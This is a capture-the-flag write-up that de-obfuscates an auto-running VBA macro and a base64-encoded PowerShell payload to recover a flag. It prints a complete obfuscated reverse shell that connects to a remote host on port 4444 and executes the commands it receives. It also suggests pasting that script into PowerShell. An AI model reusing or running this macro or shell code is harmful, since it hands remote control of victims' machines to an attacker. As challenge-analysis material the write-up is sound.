

# FurElise

## Solution

The challenge requires us to download a zip file containing a text file <a href="images/heartbroken.txt">heartbroken.txt</a>. The file contains some VBA (Visual Basic for Applications) commands along with many lines of 'FurElise'.
```
Sub Document_Open()
	Set dCBkaW1pbm = CreateObject("WScript.Shell")
	pbmcgYXQgY3Jvc = "&h&t&t&p&s&:&/&/&"
	CBtYXR0ZXJucy = "&p&a&s&t&e&b&i&n&.&c&o&m&"
	4gb3ZlciB3ZSB = "&/&r&a&w&/&K&h&4&V&y&U&Y&c&"
	''''''FürElise''''''FürElise
	''''''FürElise''''''FürElise
	''''''FürElise''''''FürElise
	''''''FürElise''''''FürElise
	''''''FürElise''''''FürElise
	''''''FürElise''''''FürElise
	''''''FürElise''''''FürElise
	''''''FürElise''''''FürElise
	''''''FürElise''''''FürElise
	''''''FürElise''''''FürElise
                 [REDACTED]
```
To remove the unnecessary lines, we can use ```uniq``` command in Linux rather than manually removing the ```FurElise```. The output will be stored in ```new.txt```
```
cat heartbroken.txt | uniq > new.txt
```
```
Sub Document_Open()
	Set dCBkaW1pbm = CreateObject("WScript.Shell")
	pbmcgYXQgY3Jvc = "&h&t&t&p&s&:&/&/&"
	CBtYXR0ZXJucy = "&p&a&s&t&e&b&i&n&.&c&o&m&"
	4gb3ZlciB3ZSB = "&/&r&a&w&/&K&h&4&V&y&U&Y&c&"
	''''''FürElise''''''FürElise
	Replace(luY2lkZW50IG,"&","")
	Replace(luZyB0aGF0IG,"&","")
	Replace(VsZCBkZWNvZG,"&","")
	Replace(N0b3JzLCBjb3,"&","")
```
However, we can see that & makes the command hard to understand. So, we need to remove & from the text file.
```
cat new.txt | sed 's/&//g'
```

```
Sub Document_Open()
        Set dCBkaW1pbm = CreateObject("WScript.Shell")
        pbmcgYXQgY3Jvc = "https://"
        CBtYXR0ZXJucy = "pastebin.com"
        4gb3ZlciB3ZSB = "/raw/Kh4VyUYc"
        ''''''FürElise''''''FürElise
        Replace(luY2lkZW50IG,"","")
        Replace(luZyB0aGF0IG,"","")
        Replace(VsZCBkZWNvZG,"","")
        Replace(N0b3JzLCBjb3,"","")
        Replace(BkZWZpbmVkIH,"","")
        Replace(4gY29tcGxleC,"","")
        Replace(pbmcgYXQgY3Jvc,"","")
        Replace(CBtYXR0ZXJucy,"","")
        Replace(4gb3ZlciB3ZSB,"","")
        dCBkaW1pbm.Exec("whoami")
        ''''''FürElise''''''FürElise
        luY2lkZW50IG = “https://gist.githubusercontent.com/zachwong02”
        luZyB0aGF0IG = “/5a8e7d365c6d9b649b12be3c890c8cb4”
        VsZCBkZWNvZG = “/raw”
        N0b3JzLCBjb3 = “/85f79114e8cb93dca7d1ae44d5fd81aa95d021e9”
        BkZWZpbmVkIH = “/gistfile1”
```

Now, we can clearly see two links that we can access. 
https://pastebin.com/raw/Kh4VyUYc and https://gist.githubusercontent.com/zachwong02/5a8e7d365c6d9b649b12be3c890c8cb4/raw/85f79114e8cb93dca7d1ae44d5fd81aa95d021e9/gistfile1.txt

### Flag 1/2
From the first link we get the first part of the flag
```
ABOH23{d!ff1cU17_s0Ng
```

From the second link, we get encrypted lines that also mention Powershell. By using CyberChef, we can conclude that it is Base64 encode. You can also copy the encrypted lines and use Base64 decode command in Linux.
```
cat flag2.txt | base64 -d
```

```
if (-not(&($([char](99+84-99)+[char](67*101/67)+[char](0+115-0)+[char](0+116-0)+[char](16+45-16)+[char](114+80-114)+[char](96*97/96)+[char](0+116-0)+[char](0+104-0))) -Path ($('$'+'e'+'n'+'v'+':'+'U'+'S'+'E'+'R'+'P'+'R'+'O'+'F'+'I'+'L'+'E') + ([string]::join('', ( (92,68,101,115,107,116,111,112,92,77,117,115,105,99) |%{ ( [char][int] $_)})) | % {$_})) -PathType (([string]::join('', ( (76,101,97,102) |%{ ( [char][int] $_)})) | % {$_})))){
        & (("jDkavXf-p98OYShtMg4A2cN5xPIHeF1zyElTnwZmRbLKQGisJC0UWoBVduqr637")[37,59,46,15,28,7,14,53,47,15] -join '') (('d'+'o'+'n'+'t'+' '+'e'+'x'+'e'+'c'+'u'+'t'+'e'+' '+'t'+'h'+'e'+' '+'s'+'c'+'r'+'i'+'p'+'t'+'.'+'.'+'.'+' '+'a'+'m'+'a'+'t'+'e'+'u'+'r'+' '+'m'+'o'+'m'+'e'+'n'+'t'+'.'+'.'+'.'))
        return
}
$LHOST = $([char](36*36/36)+[char](76+40-76)+[char](0+49-0)+[char](27*43/27)+[char](0+49-0)+[char](27*43/27)+[char](86+48-86)+[char](0+45-0)+[char](0+49-0)+[char](0+41-0)+[char](0+99-0)+[char](98+97-98)+[char](52+116-52)+[char](7*101/7)+[char](0+62-0)+[char](0+57-0)+[char](0+50-0)+[char](0+46-0)+[char](43*49/43)+[char](0+54-0)+[char](116+56-116)+[char](37*46/37)+[char](86*50/86)+[char](94*50/94)+[char](0+49-0)+[char](76+46-76)+[char](0+49-0)+[char](74+52-74)+[char](96*56/96));
$LPORT = ($(4444));
$TCPClient = & ([string]::join('', ( (78,101,119,45,79,98,106,101,99,116) |%{ ( [char][int] $_)})) | % {$_}) Net.Sockets.TCPClient($LHOST, $LPORT);
$NetworkStream = $TCPClient.GetStream();
$StreamReader = & ([string]::join('', ( (78,101,119,45,79,98,106,101,99,116) |%{ ( [char][int] $_)})) | % {$_}) IO.StreamReader($NetworkStream);
$StreamWriter = & ([string]::join('', ( (78,101,119,45,79,98,106,101,99,116) |%{ ( [char][int] $_)})) | % {$_}) IO.StreamWriter($NetworkStream);
$StreamWriter.AutoFlush = $true;
$Buffer = & ([string]::join('', ( (78,101,119,45,79,98,106,101,99,116) |%{ ( [char][int] $_)})) | % {$_}) System.Byte[] $($(1024));
while ($TCPClient.Connected) { while ($NetworkStream.DataAvailable) { $RawData = $NetworkStream.Read($Buffer, 0, $Buffer.Length);
$c2 = $([char](27*104/27)+[char](60+116-60)+[char](57*116/57)+[char](67*112/67)+[char](18+115-18)+[char](28+58-28)+[char](76*47/76)+[char](50*47/50)+[char](83*112/83)+[char](89*97/89)+[char](0+115-0)+[char](23*116/23)+[char](7*101/7)+[char](78+98-78)+[char](76*105/76)+[char](86+110-86)+[char](0+46-0)+[char](86*99/86)+[char](52*111/52)+[char](100+109-100)+[char](10*47/10)+[char](0+114-0)+[char](94+97-94)+[char](95+119-95)+[char](25*47/25)+[char](0+74-0)+[char](59*67/59)+[char](31+103-31)+[char](0+76-0)+[char](56+122-56)+[char](57+52-57)+[char](0+102-0)+[char](40*49/40));
$Code = ([text.encoding]::UTF8).GetString($Buffer, 0, $RawData -1) };
if ($TCPClient.Connected -and $Code.Length -gt 1) { $Output = try { & ([string]::join('', ( (73,110,118,111,107,101,45,69,120,112,114,101,115,115,105,111,110) |%{ ( [char][int] $_)})) | % {$_}) ($Code) 2>&1 } catch { $_ };
$StreamWriter.Write($(($('$'+'O'+'u'+'t'+'p'+'u'+'t'+'`'+'n'))));
$Code = $null } };
$TCPClient.Close();
$NetworkStream.Close();
$StreamReader.Close();
```
By pasting the command inside Powershell, we can know the value of each variable. Variable ```c2 ``` contains the link for second flag

<p align="center">
  
</p>

https://pastebin.com/raw/JCgLz4f1

### Flag 2/2
```
_FROm_hEaRtBrE4K}
```

## Flag
```
ABOH23{d!ff1cU17_s0Ng_FROm_hEaRtBrE4K}
```
